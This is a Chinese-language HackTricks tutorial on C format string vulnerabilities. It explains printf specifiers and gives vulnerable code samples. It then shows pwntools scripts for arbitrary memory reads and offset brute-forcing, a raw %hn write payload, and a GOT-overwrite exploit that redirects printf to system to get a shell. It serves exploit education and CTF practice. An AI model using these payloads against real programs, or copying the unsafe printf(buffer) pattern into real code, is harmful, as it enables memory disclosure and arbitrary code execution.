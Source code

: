 # Format Strings

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

在 C 中，**`printf`** 是一个可以用来 **打印** 字符串的函数。该函数期望的 **第一个参数** 是 **带格式的原始文本**。后续的 **参数** 是期望的 **值**，用于 **替换** 原始文本中的 **格式化符**。

其他易受攻击的函数包括 **`sprintf()`** 和 **`fprintf()`**。

当 **攻击者的文本作为该函数的第一个参数** 时，就会出现漏洞。攻击者将能够构造一个 **特殊输入，利用** **printf 格式** 字符串的能力来读取和 **写入任何地址（可读/可写）** 中的任何数据。这样就能够 **执行任意代码**。

#### 格式化符：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**示例：**

* 漏洞示例：
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 正常使用：
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 缺少参数：
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 漏洞：
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **访问指针**

格式 **`%<n>$x`**，其中 `n` 是一个数字，允许指示 printf 选择第 n 个参数（来自栈）。因此，如果您想使用 printf 读取栈中的第 4 个参数，可以这样做：
```c
printf("%x %x %x %x")
```
并且你会从第一个参数读取到第四个参数。

或者你可以这样做：
```c
printf("%4$x")
```
并直接读取第四个。

注意，攻击者控制了 `pr`**`intf` 参数，这基本上意味着** 他的输入将在调用 `printf` 时位于栈中，这意味着他可以在栈中写入特定的内存地址。

{% hint style="danger" %}
控制此输入的攻击者将能够 **在栈中添加任意地址并使 `printf` 访问它们**。在下一节中将解释如何利用这种行为。
{% endhint %}

## **任意读取**

可以使用格式化符 **`%n$s`** 使 **`printf`** 获取位于 **n 位置** 的 **地址**，并 **将其作为字符串打印**（打印直到找到 0x00）。因此，如果二进制文件的基地址是 **`0x8048000`**，并且我们知道用户输入从栈的第 4 个位置开始，则可以使用以下方式打印二进制文件的开头：
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
请注意，您不能将地址 0x8048000 放在输入的开头，因为字符串将在该地址的末尾以 0x00 结束。
{% endhint %}

### 查找偏移量

要找到输入的偏移量，您可以发送 4 或 8 个字节（`0x41414141`），后跟 **`%1$x`** 并 **增加** 值，直到检索到 `A's`。

<details>

<summary>暴力破解 printf 偏移量</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### 有多有用

任意读取可以用于：

* **从内存中转储** **二进制文件**
* **访问存储敏感信息的内存特定部分**（如金丝雀、加密密钥或自定义密码，如在这个 [**CTF 挑战**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) 中）

## **任意写入**

格式化器 **`$<num>%n`** **在** **指定地址** 中写入 **已写入字节的数量**，该地址在栈中的 \<num> 参数中。如果攻击者可以使用 printf 写入任意数量的字符，他将能够使 **`$<num>%n`** 在任意地址写入任意数字。

幸运的是，要写入数字 9999，并不需要在输入中添加 9999 个 "A"，为了做到这一点，可以使用格式化器 **`%.<num-write>%<num>$n`** 在 **`num` 位置指向的地址中写入数字 **`<num-write>`**。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
然而，请注意，通常为了写入一个地址，例如 `0x08049724`（这是一个一次性写入的巨大数字），**使用的是 `$hn`** 而不是 `$n`。这允许**只写入 2 字节**。因此，这个操作需要进行两次，一次用于地址的高 2B，另一次用于低 2B。

因此，这个漏洞允许**在任何地址写入任何内容（任意写入）。**

在这个例子中，目标是**覆盖**一个**函数**在**GOT**表中的**地址**，该函数将在稍后被调用。尽管这可以滥用其他任意写入到执行的技术：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

我们将**覆盖**一个**函数**，该函数**接收**来自**用户**的**参数**并**指向****`system`** **函数**。\
如前所述，写入地址通常需要 2 个步骤：您**首先写入地址的 2 字节**，然后写入另外 2 字节。为此使用**`$hn`**。

* **HOB** 被调用为地址的 2 个高字节
* **LOB** 被调用为地址的 2 个低字节

然后，由于格式字符串的工作方式，您需要**首先写入较小的** \[HOB, LOB]，然后写入另一个。

如果 HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

如果 HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 模板

您可以在以下位置找到用于准备此类漏洞的**模板**：

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

或者可以从[**这里**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)找到这个基本示例：
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## 格式字符串到缓冲区溢出

可以利用格式字符串漏洞的写入操作来**写入栈的地址**，并利用**缓冲区溢出**类型的漏洞。

## 其他示例与参考

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32位，无relro，无canary，nx，无pie，基本使用格式字符串从栈中泄露标志（无需更改执行流程）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串覆盖地址`fflush`与win函数（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串在`.fini_array`中写入main内部的地址（使流程再循环一次）并将地址写入指向`strlen`的GOT表中的`system`。当流程返回到main时，`strlen`与用户输入一起执行并指向`system`，将执行传递的命令。

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
